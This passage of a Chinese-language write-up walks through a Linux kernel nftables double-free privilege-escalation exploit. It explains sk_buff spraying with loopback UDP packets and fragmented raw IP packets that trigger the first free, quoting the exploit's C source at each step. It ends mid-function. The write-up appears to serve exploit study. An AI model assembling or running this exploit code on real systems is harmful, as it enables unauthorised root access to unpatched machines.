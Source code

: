 **目的**：在构造Double-Free之前分配一个干净的skb（在两次free之间释放本skb，以避免检测）。

**方法**：**发送UDP包**，EXP将UDP包发送到其自身的UDP listener socket，在UDP listener调用`recv()`接收包之前，skb会保留在内存中。

```c
// 发送UDP包
void send_ipv4_udp(const char* buf, size_t buflen)
{
    struct sockaddr_in dst_addr = {
		.sin_family = AF_INET,
        .sin_port = htons(45173),
		.sin_addr.s_addr = inet_addr("127.0.0.1")
	};

	sendto_noconn(&dst_addr, buf, buflen, sendto_ipv4_udp_client_sockfd);
}

static void alloc_ipv4_udp(size_t content_size)
{
	PRINTF_VERBOSE("[*] sending udp packet...\n");
	memset(intermed_buf, '\x00', content_size);
	send_ipv4_udp(intermed_buf, content_size);
}
// privesc_flh_bypass_no_time() —— 分配N个UDP数据包来喷射sk_buff对象，供之后释放使用
static void privesc_flh_bypass_no_time(int shell_stdin_fd, int shell_stdout_fd)
{
    // ... (setup code)

// 1. 触发Double-Free，构造重叠的PMD页和PTE页
// 1-1. 分配170个干净skb（udp包），在Double-Free之间释放本skb，避免检测导致崩溃
	for (int i=0; i < CONFIG_SKB_SPRAY_AMOUNT; i++)
	{
		PRINTF_VERBOSE("[*] reserving udp packets... (%d/%d)\n", i, CONFIG_SKB_SPRAY_AMOUNT);
		alloc_ipv4_udp(1);
	}

    // ... (rest of the exploit)
}
```

##### （2）Double-Free-第1次释放

**方法**：**发送IP数据包**，触发之前设置的nftables rule。可以采用任意协议但不能包含TCP/UDP，因为TCP/UDP会被传到对应的TCP/UDP handler代码，由于数据损坏导致内核崩溃。

**skb构造**：注意，IP头中的`IP_MF`标志（`0x2000`），表示skb进入IP分片队列，稍后可通过发送第2个IP分片来释放skb。skb的大小决定了Double-Free对象的大小，如果分配的数据包内容为0字节，则skb对象位于 kmalloc-256，如果分配超过32768（0x8000）字节内容，就会从order-4（16个页）的伙伴系统来分配。以下代码负责组合IP数据包、计算校验和并发送数据包：

```c
static char intermed_buf[1 << 19]; // simply pre-allocate intermediate buffers

static int sendto_ipv4_ip_sockfd;

void send_ipv4_ip_hdr(const char* buf, size_t buflen, struct ip *ip_header)
{
	size_t ip_buflen = sizeof(struct ip) + buflen;
    struct sockaddr_in dst_addr = {
		.sin_family = AF_INET,
		.sin_addr.s_addr =  inet_addr("127.0.0.2")  // 127.0.0.1 will not be ipfrag_time'd. this can't be set to 1.1.1.1 since C runtime will prob catch it
	};

    memcpy(intermed_buf, ip_header, sizeof(*ip_header));
	memcpy(&intermed_buf[sizeof(*ip_header)], buf, buflen);

	// checksum needds to be 0 before
```